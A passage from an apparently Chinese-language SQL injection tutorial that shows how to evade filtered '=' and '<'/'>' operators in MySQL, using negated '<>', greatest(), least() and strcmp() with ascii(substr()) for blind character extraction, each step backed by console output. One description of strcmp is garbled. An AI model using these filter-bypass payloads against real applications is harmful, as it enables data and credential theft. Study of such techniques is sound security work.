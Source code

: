 - 使用大小于号来绕过

```sql
mysql> select * from users where id > 1 and id < 3;
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  2 | user2    | pass1    |
+----+----------+----------+
```

- <> 等价于 !=
  所以在前面再加一个`!`结果就是等号了

```sql
mysql> select * from users where !(id <> 1);
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | test1    | pass     |
+----+----------+----------+
1 row in set (0.00 sec)

mysql> select * from users where id = 1;
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | test1    | pass     |
+----+----------+----------+
1 row in set (0.00 sec)
```

等号绕过也可以使用strcmp(str1,str2)函数、between关键字等，具体可以参考后面的`过滤大小于号绕过`

# 过滤大小于号绕过

在sql盲注中，一般使用大小于号来判断ascii码值的大小来达到爆破的效果。但是如果过滤了大小于号的话，那就凉凉。怎么会呢，可以使用以下的关键字来绕过

- greatest(n1, n2, n3…):返回n中的最大值

```sql
mysql> select * from users where id = 1 and greatest(ascii(substr(username,1,1)),1)=116;
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | test1    | pass     |
+----+----------+----------+
```

- least(n1,n2,n3…):返回n中的最小值
- strcmp(str1,str2):若所有的字符串均相同，则返回STRCMP()，若根据当前分类次序，第一个参数小于第二个，则返回 -1，其它情况返回 1

```sql
mysql> select * from users where id = 1 and strcmp(ascii(substr(username,1,1)),117);
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | test1    | pass     |
+----+----------+----------+
1 row in set (0.00 sec)

mysql> select * from users where id = 1 and strcmp(ascii(substr(username,1,1)),116);
Empty set (0.00 sec)
```
